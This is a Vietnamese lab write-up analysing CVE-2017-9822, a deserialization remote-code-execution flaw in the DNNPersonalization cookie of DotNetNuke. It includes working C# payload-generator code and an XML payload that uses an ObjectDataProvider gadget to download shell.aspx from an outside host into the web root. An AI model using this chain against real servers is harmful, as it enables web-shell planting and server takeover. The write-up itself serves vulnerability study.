# CVE-2017-9822

DotNetNuke (thường viết tắt là **DNN**) là một **nền tảng CMS (Content Management System)** và **web application framework** dựa trên công nghệ **ASP.NET** của Microsoft.

## Thông tin chính

- **Sản phẩm ảnh hưởng:** DotNetNuke (DNN Platform) – một CMS/portal .NET phổ biến.
    
- **Ngày công bố:** Tháng 7/2017.
    
- **Mức độ:** Critical (CVSS ~9.8).
    
- **Loại lỗ hổng:** **XML External Entity (XXE) / Insecure Deserialization → Remote Code Execution (RCE).**

- **Ảnh hưởng:** trước phiên bản 9.1.1 có khả năng thực thi mã từ xa thông qua **cookie**

## Hướng dẫn cài đặt 

Ở đây mình đang sử dụng window 10 để setup và debug chương trình. Phiên bản mình đang cài là [9.1.0](https://github.com/dnnsoftware/Dnn.Platform/releases/tag/v9.1.0) các bạn có thể tham khảo cách cài đặt [Tại đây](https://www.digitalalphas.com/how-to-install-dotnetnuke-dnn/). Và kết quả khi hoàn thành xong là:



## Phân tích 



- Theo các bài báo cáo tôi đã đọc thì lỗ hổng này nằm tại vị trí xử lý cookie của **DotNetNuke** 

- DNN sử dụng phương pháp giải tuần tự hóa an toàn (usafe deserialization) cho cookie DNNPersonalization


#### Debug

- Ở đây tôi sử dụng **dnSpy** là một công cụ **decompiler (trình dịch ngược) và debugger** dành cho ứng dụng **.NET (C#, VB.NET, F#...)**. Nó cho phép bạn **xem, phân tích, và chỉnh sửa mã nguồn** từ các file biên dịch như `.dll` hoặc `.exe` viết bằng .NET. Có thể cài đặt [Tại đây](https://github.com/dnSpy/dnSpy/releases) Chúng ta cần phải tải 2 phiên bản để phục vụ cho việc debug.



- Đầu tiên hãy mở `DotNetNuke.dll` bằng phiên bản 32 bit hãy chọn **Edit Assembly Attributes (C#)**



- Sau đó thay dòng 
```js
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints)]
```

- Thành 

```js
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default |
DebuggableAttribute.DebuggingModes.DisableOptimizations |
DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints |
DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]
```



Sau đó hãy lưu lại.

- Mở bản 64 bit với quyền Admin và chọn `Attach to Process`



- Tiếp theo hãy chọn `w3wp.exe`



Lý do chọn `w3wp.exe` là:

- `w3wp.exe` = **IIS Worker Process**.
    
- Nó là tiến trình thực thi của **Application Pool** trong IIS.
    
- Khi có request HTTP gửi đến website, IIS sẽ tạo hoặc tái sử dụng một `w3wp.exe` để xử lý request đó (chạy code ASP.NET, xử lý module, middleware, database connection...).
    
- Mỗi Application Pool có thể có một hoặc nhiều tiến trình `w3wp.exe` tùy cấu hình (web garden, recycling).


Tiếp theo chúng ta hãy chọn Debug -> Window -> Modules



Sau khi xong sẽ xuất hiện các Modules chúng ta hãy nhấn chuột phải và bất kì cài nào và chọn `Open All Modules` 



Và cuối cùng sẽ xuất hiện hết tất cả các Assembly liên quan đến DNNDNN



- Hãy vào bên trong `DotNetNuke.dll` -> `PersonalizationController#LoadProfile(int, int)` 



Hàm này dùng để **nạp dữ liệu cá nhân hóa (profile) của người dùng** trong portal DNN.

- Nếu là user đã đăng nhập → lấy profile từ **database + cache**.
    
- Nếu là user ẩn danh (chưa login) → lấy profile từ **cookie `DNNPersonalization`**.

Ở đây chúng ta nên tập chung vào `DNNPersonalization` 

- Nếu `userId` không hợp lệ (người dùng anonymous).
    
- Kiểm tra trong request có cookie `DNNPersonalization` không.
    
- Nếu có → lấy giá trị XML từ cookie này.

- Chúng ta sẽ Send một request 404 đến trang web và sử dụng DNNPersonalization bất kì, dùng dnSpy để đặt Breakpoint tại  `DotNetNuke.dll` –> `PersonalizationController#LoadProfile(int, int)` thì sẽ debug được





- Trong phần Call Stack chúng ta hãy tập chung vào phân tích class `PortalSettings`



- Điều đang chú ý là ở đây sử dụng điều kiện **if** để kiểm tra xem cái request hiện tại đã là `IsAuthenticated` hãy chưa

- Và trong khi request chúng ta gửi vào là 404 -> `unauthenticated` 

- Tiếp tục trong phần Call Stack chúng ta tập trung vào `Handle404OrException`



- Ở đây nó sẽ kiểm tra request `context.User` hiện tại có là `null`, nếu đúng như vậy sẽ gán `context.User` là user thread hiện tại





- Ta Thấy được trong `Handle404OrException` Biến `IsAuthenticated` bây giờ đã có giá trị là true và user chính là của IIS server do đó request được thực hiện như một authenticated user.

- Lý do cho vấn đề nằm ở đoạn code này 
```js
else if (transfer)
{
	if (context.User == null)
	{
		context.User = Thread.CurrentPrincipal;
	}
	response.TrySkipIisCustomErrors = true;
	IHttpHandler handler = new CDefault();
	context.Handler = handler;
	server.Transfer("~/" + text, true);
}
```

- Nếu `context.User` chưa có → gán `Thread.CurrentPrincipal` (tức là identity hiện tại của thread).
    
- Điều này giúp request có thông tin **người dùng/role** khi xử lý tiếp.

**=> Khi chúng ta truyền bất cứ nội dung nào vào cookie với biến DNNPersonalization thì nó sẽ thực hiện như một người dùng bình thường.**

#### Tiếp theo xem đến hướng xử lý cookie

- Vẫn ở trong `DotNetNuke.dll` –> `PersonalizationController#LoadProfile(int, int)` 

- Ta thấy biến `text` nhận giá trị từ cookie value và sau đó là đưa vào làm input cho `Globals.DeserializeHashTableXml()`



- Vào trong `Globals.DeserializeHashTableXml()`



Hàm **`DeserializeHashTableXml`** có nhiệm vụ:

- Nhận vào một chuỗi **XML** (`Source`).
    
- Parse chuỗi XML đó để **chuyển đổi thành một đối tượng `Hashtable`**.
    
- Trong quá trình parse, nó gọi đến hàm `XmlUtils.DeSerializeHashtable`, với tham số `"profile"` để chỉ định root node XML.

Vào bên  trong `XmlUtils.DeSerializeHashtable` và ta thấy được cách nó xử lý 



Hàm **`DeSerializeHashtable`** nhận vào chuỗi XML và chuyển nó thành `Hashtable`. Với mỗi node `<item>`, hàm sẽ:

- Lấy `key` để làm khóa.
    
- Lấy `type` rồi gọi `Type.GetType(type)` để xác định kiểu dữ liệu.
    
- Dùng **`XmlSerializer.Deserialize`** để biến nội dung XML thành object thật.
    
- Thêm vào `Hashtable`.
    
👉 Vấn đề: vì `type` và nội dung XML hoàn toàn do người dùng kiểm soát (từ cookie `DNNPersonalization`) 

## Tạo Payload

Dựa trên `XmlUtils#DeSerializeHashtable` là vị trí lỗi tạo một chương trình tương tự serialize và deserialize object:

```js
using System.Xml;
using System.Diagnostics;
using System.Xml.Serialization;

namespace example
{
	public class Test  
	{    
	    private string _name;  
	    public string name  
	    {  
	        get { return _name; }  
	        set { this._name = value; execCMD(); }  
	    }  
	  
	    private void execCMD()  
	    {  
	        Process process = new Process();  
	        process.StartInfo.FileName = this._name;  
	        process.Start();  
	        process.Dispose(); // close  
	    }  
	}

    public class Program
    {
        private static string fileFolder = "D:\\lab\\csharp\\DNN\\example\\serialization\\";
        public static void Serialize(Object obj) // method xml serialize arbitrary object 
        {
            // tạo xml root element
            XmlDocument xmlDocument = new XmlDocument();
            XmlElement xmlElementRoot = xmlDocument.CreateElement("profile");
            xmlDocument.AppendChild(xmlElementRoot);

            // tạo node con item có attribute type chứa tên object type

            XmlElement xmlElementItem = xmlDocument.CreateElement("item");
            xmlElementItem.SetAttribute("type", obj.GetType().AssemblyQualifiedName);

            // serialize obj thành xmlDocumentObj

            XmlDocument xmlDocumentObj = new XmlDocument();
            XmlSerializer xmlSerializer = new XmlSerializer(obj.GetType());
            StringWriter stringWriter = new StringWriter();
            xmlSerializer.Serialize(stringWriter, obj);
            xmlDocumentObj.LoadXml(stringWriter.ToString());
            // thêm xml serialized object này vào node item và thêm node item vào root element
            xmlElementItem.AppendChild(xmlDocument.ImportNode(xmlDocumentObj.DocumentElement, true));

            xmlElementRoot.AppendChild(xmlElementItem);
    
            File.WriteAllText( fileFolder + "obj.xml", xmlDocument.OuterXml);

        }

        public static void DeSerialize(string xmlSource, string rootname)
        {
            // Hashtable hashtable = new Hashtable();
            if (!string.IsNullOrEmpty(xmlSource))
            {
                try
                {

                    XmlDocument xmlDocument = new XmlDocument();
                    xmlDocument.LoadXml(xmlSource);
                    foreach (object obj in xmlDocument.SelectNodes(rootname + "/item"))
                    {
                        XmlElement xmlElement = (XmlElement)obj;
                        string attribute = xmlElement.GetAttribute("key");
                        string attribute2 = xmlElement.GetAttribute("type");
                        XmlSerializer xmlSerializer = new XmlSerializer(Type.GetType(attribute2));
                        XmlTextReader xmlReader = new XmlTextReader(new StringReader(xmlElement.InnerXml));

                        // hashtable.Add(attribute, xmlSerializer.Deserialize(xmlReader));
                        // custom

                        Object objResult = xmlSerializer.Deserialize(xmlReader);
                        Test testObj = (Test) objResult;
                        Console.WriteLine("Deserialize sucessful: " + testObj.name);
                    }
                }
                catch (Exception)
                {
                }
            }
            // return hashtable;
        }
        static void Main(string[] args)
        {
            // serialize
            Test test = new Test();
            test.name = "notepad.exe"
            Serialize(test);
            // deserialize
            String xmlSource = File.ReadAllText(fileFolder + "obj.xml");
            DeSerialize(xmlSource, "profile");

        }
    }
}
```

- File `xml` sẽ trông như này:

```js
<?xml version="1.0" encoding="utf-8"?>
<profile>
  <item type="example.Test, ConsoleApp1, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null">
    <Test xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xmlns:xsd="http://www.w3.org/2001/XMLSchema">
      <name>notepad.exe</name>
    </Test>
  </item>
</profile>
```




- Bây giờ chúng ta sẽ chuyển sang RCE
- Cần tìm một object có thể thực thi code khi thực hiện `Deserialize` 
- Ở đây chúng ta tìm thấy `FileSystemUtils PullFile method`



**Giải thích:**

- `PullFile(string URL, string FilePath)` — phương thức tĩnh trong `FileSystemUtils` dùng để **tải nội dung từ `URL` về đường dẫn `FilePath` trên hệ thống**.
    
- Bên trong dùng `WebClient.DownloadFile(URL, FilePath)` — hành động tải và ghi file.
    
- `catch` chỉ log lỗi và trả về message; không ném tiếp.

Nhưng vấn đề là :
_XmlSerializer_ không thể serialize class method mà chỉ là các trường và thuộc tính public. Các trường và thuộc tính public của class _FileSystemUtils_ thì cũng không có cái nào có thể gọi đến được method _PullFile_


Hãy đến với **ObjectDataProvider Class**

- `ObjectDataProvider` là một class trong **WPF** (namespace `System.Windows.Data`, module `PresentationFramework.dll`).

- **Có khả năng gọi method runtime** — không chỉ chứa dữ liệu, mà có thể _thực hiện hành động_ (side-effect) bằng cách gọi method bất kỳ trên object được wrap.
    
- **Cho phép truyền tham số** — attacker có thể điều khiển tham số truyền vào method (ví dụ URL và file path cho một `PullFile` method).

- `ObjectDataProvider` bản thân không “thực thi code” như một interpreter — nhưng nó cho phép gọi bất kỳ method public nào trên object được wrap. Vì vậy, nếu tồn tại method public có side-effect nguy hiểm (ví dụ download file, exec process, write file), chain có thể thực hiện.



Ở đây nó đang gọi đến `Refresh()` của `DataSourceProvider`


Tiếp tục sẽ tới `BeginQuery()` và lưu ý rằng _ObjectDataProvider_ thừa kế từ _DataSourceProvider_ và ta chuyển sang _BbeginQuery()_ của _ObjectDataProvider_



Tiếp tục với `QueryWorker`



Nó sẽ gọi đến `InvokeMethodOnInstance`



`InvokeMethodOnInstance` là phương thức **thực thi (invoke)** thực tế — nó dùng reflection để gọi phương thức được chỉ định (`MethodName`) trên object mà `ObjectDataProvider` đang “wrap” (hoặc trên type đó nếu là static), truyền vào danh sách `MethodParameters`, rồi trả về kết quả trả về của phương thức đó.


Sử dụng IDE jetbrain rider để viết script, cần reference đến `DotNetNuke.dll` và `PresentationFramework.dll` module.



Ta có Payload thực thi như sau 

```js
using System;  
using System.IO;  
using System.Xml;  
using System.Xml.Serialization;  
using System.Windows.Data;              // ObjectDataProvider  
using DotNetNuke.Common.Utilities;      // FileSystemUtils (nếu bạn đã add DLL)  
using System.Data.Services.Internal;    // ExpandedWrapper (nếu có)  
  
namespace example  
{  
    public class Program  
    {  
        private static string fileFolder = "C:\\Users\\chinh\\Documents\\DNN"; // CHANGE THIS  
        public static void Serialize(Object obj) // method xml serialize arbitrary object   
        {  
            // tạo xml root element  
            XmlDocument xmlDocument = new XmlDocument();  
            XmlElement xmlElementRoot = xmlDocument.CreateElement("profile");  
            xmlDocument.AppendChild(xmlElementRoot);  
  
            // tạo node con item có attribute type chứa tên object type  
            XmlElement xmlElementItem = xmlDocument.CreateElement("item");  
            xmlElementItem.SetAttribute("type", obj.GetType().AssemblyQualifiedName);  
  
            // serialize obj thành xmlDocumentObj  
            XmlDocument xmlDocumentObj = new XmlDocument();  
            XmlSerializer xmlSerializer = new XmlSerializer(obj.GetType());  
            StringWriter stringWriter = new StringWriter();  
            xmlSerializer.Serialize(stringWriter, obj);  
            xmlDocumentObj.LoadXml(stringWriter.ToString());  
  
            // thêm xml serialized object này vào node item và thêm node item vào root element  
        xmlElementItem.AppendChild(xmlDocument.ImportNode(xmlDocumentObj.DocumentElement, true));  
            xmlElementRoot.AppendChild(xmlElementItem);  
            File.WriteAllText(fileFolder + "obj.xml", xmlDocument.OuterXml);  
        }  
  
        public static void DeSerialize(string xmlSource, string rootname)  
        {  
            // Hashtable hashtable = new Hashtable();  
            if (!string.IsNullOrEmpty(xmlSource))  
            {  
                try  
                {  
                    XmlDocument xmlDocument = new XmlDocument();  
                    xmlDocument.LoadXml(xmlSource);  
                    foreach (object obj in xmlDocument.SelectNodes(rootname + "/item"))  
  
                    {  
                        XmlElement xmlElement = (XmlElement)obj;  
                        string attribute = xmlElement.GetAttribute("key");  
                        string attribute2 = xmlElement.GetAttribute("type");  
                        XmlSerializer xmlSerializer = new XmlSerializer(Type.GetType(attribute2));  
                        XmlTextReader xmlReader = new XmlTextReader(new StringReader(xmlElement.InnerXml));  
                        // hashtable.Add(attribute, xmlSerializer.Deserialize(xmlReader));  
                        // custom  
                        Object objResult = xmlSerializer.Deserialize(xmlReader);  
                    }  
                }  
                catch (Exception)  
                {  
                }  
            }  
            // return hashtable;  
        }  
        static void Main(string[] args)  
        {  
            ExpandedWrapper<FileSystemUtils, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();  
            expandedWrapper.ProjectedProperty0 = new ObjectDataProvider();  
            expandedWrapper.ProjectedProperty0.ObjectInstance = new FileSystemUtils();  
            expandedWrapper.ProjectedProperty0.MethodName = "PullFile";  
    expandedWrapper.ProjectedProperty0.MethodParameters.Add("https://192.168.72.102:8000/shell.aspx");  
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("C:\\Web\\DNN_Platform_9.1.0.367_Install\\js\\shell.aspx");  
  
            Console.WriteLine("Done!!");  
            Serialize(expandedWrapper);  
  
            String xmlSource = File.ReadAllText(fileFolder + "obj.xml");  
            DeSerialize(xmlSource, "profile");  
  
        }  
    }  
}
```

ta được file xml:

```xml
<profile>
  <item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
      <ExpandedElement/>
      <ProjectedProperty0>
        <MethodName>PullFile</MethodName>
        <MethodParameters>
          <anyType xsi:type="xsd:string">http://192.168.72.102:8000/shell.aspx</anyType>
          <anyType xsi:type="xsd:string">C:\Web\DNN_Platform_9.1.0.367_Install\js\shell.aspx</anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="FileSystemUtils"></ObjectInstance>
      </ProjectedProperty0>
    </ExpandedWrapperOfFileSystemUtilsObjectDataProvider>
  </item>
</profile>
```

Thực hiện chèn payload







Thực hiện khai thác thôi


Ngoài ra chúng ta có thể dùng tool `ysoserial.NET` để thực hiện tạo payload




Ngoài ra chúng ta còn có thể khái thác thêm phần đọc file tại `WriteFile` của class `FileSystemUtils`




